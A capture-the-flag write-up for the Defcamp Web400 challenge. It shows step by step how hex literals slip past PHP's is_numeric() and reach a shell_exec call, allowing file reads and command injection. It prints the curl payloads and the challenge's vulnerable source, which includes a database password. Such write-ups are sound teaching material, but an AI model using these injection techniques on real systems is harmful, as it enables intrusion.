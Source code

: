 # Defcamp CTF - Web400


The website of the challenge is only displaying user number and their associated picture... Looking at the code when can see 

- For user 1 the picture src field is : `?id=1&usr=1`
- For user 2 the picture src field is : `?id=2&usr=2`

Strange... Do not think too fast to a SQLi and let's try playing a little with curl and the GET parameters : 

```bash
$> curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
Ohhh... There is a direct call to `cat` from PHP. Let's try to make index.php source code appear.

```bash
$> curl "http://10.13.37.5/?id=../index.php;&usr=1"
ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) 
[...]
```

Ok, the "is_numeric()" function is certainely used. Let's try playing with numbers with a float :

```bash
$> curl "http://10.13.37.5/?id=2.1123213&usr=1"
cat: images/2.1123213_6.jpg: No such file or directory
```
Nice but not very useful. There is not really direct bypassing technique for the "is_numeric()" function, except when used in combination with MySQL (quite common) that support Hex Literals... So let's try with an hexadecimal number :

```bash
$> curl "http://10.13.37.5/?id=0x1&usr=1"
cat: images/_6.jpg: No such file or directory
```
The hexadecimal number given in parameter seem to be interpreted by something and doesn't appear anymore.

So we try with "../index.php" in hexadecimal : 

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
cat: images/../index.php_6.jpg: No such file or directory
```

Yeah ! but we have to remove "_6.jpg", since we are in a shell we can just add  ";" (0x3b) :

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
```

Nice !

```php
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,........... }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
sh: 1: _6.jpg: not found

```

Nothing interesting in the source code so let's try a ";ls -l;" : 

```bash
$> curl "http://10.13.37.5/?id=0x3b6c73202d6c3b&usr=1"
total 32
-rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
-rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
sh: 1: _6.jpg: not found
```

Done ! We only have to get 6e8218531e0580b6754b3e3be5252873.txt (by using `HTTP://x.x.x.x/6e8218531e0580b6754b3e3be5252873.txt` or with `cat` int the command injection...)

**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**